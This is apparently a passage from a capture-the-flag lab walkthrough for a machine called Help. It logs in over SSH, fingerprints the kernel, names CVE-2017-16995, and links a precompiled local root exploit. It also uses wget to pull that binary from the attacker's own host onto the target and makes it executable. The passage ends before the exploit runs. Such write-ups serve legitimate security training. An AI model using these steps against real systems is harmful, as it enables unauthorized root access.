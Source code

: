 ```
$ ssh help@10.10.10.121
help@10.10.10.121's password: 
Permission denied, please try again.
help@10.10.10.121's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have new mail.
Last login: Fri Jan 11 06:18:50 2019
help@help:~$ whoami
help
```


Q11: What is the kernel version on Help (ending in a word ending in "ic")?
- run uname to find kernel version
```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Q12: Submit the flag located on the administrator's desktop.
- we can find the CVE for this kernel version which is CVE-2017-16995
- POC and complied binary is at https://github.com/anoaghost/Localroot_Compile/blob/master/2017/CVE-2017-16995/pwned- transfer the binary across to target and run to escalate access to root
```
help@help:~$ wget http://10.10.14.35:8000/pwned
--2025-06-10 04:40:47--  http://10.10.14.35:8000/pwned
Connecting to 10.10.14.35:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14040 (14K) [application/octet-stream]
Saving to: ‘pwned’

pwned                        100%[==============================================>]  13.71K  44.8KB/s    in 0.3s    

2025-06-10 04:40:48 (44.8 KB/s) - ‘pwned’ saved [14040/14040]

help@help:~$ ls
help  npm-debug.log  pwned  user.txt
help@help:~$ ./pwned
-bash: ./pwned: Permission denied
help@help:~$ ls
help  npm-debug.log  pwned  user.txt
help@help:~$ ls -la
total 76
drwxr-xr-x   7 help help  4096 Jun 10 04:40 .
drwxr-xr-x   3 root root  4096 Dec 13  2023 ..
lrwxrwxrwx   1 root root     9 Dec 18  2023 .bash_history -> /dev/null
-rw-r--r--   1 help help   220 Nov 27  2018 .bash_logout
-rw-r--r--   1 help help     1 Nov 27  2018 .bash_profile
-rw-r--r--   1 help help  3771 Nov 27  2018 .bashrc
drwx------   2 help help  4096 Nov 23  2021 .cache
drwxr-xr-x   4 help help  4096 Dec 13  2023 .forever
drwxrwxrwx   6 help help  4096 May  4  2022 help
drwxrwxr-x   2 help help  4096 Nov 23  2021 .nano
drwxrwxr-x 290 help help 12288 Dec 13  2023 .npm
-rw-rw-r--   1 help help     1 May  4  2022 npm-debug.log
-rw-r--r--   1 help help   655 Nov 27  2018 .profile
-rw-rw-r--   1 help help 14040 Jun 10 04:40 pwned
-rw-r--r--   1 help help    33 Jun 10 03:46 user.txt
help@help:~$ chmod +x pwned
```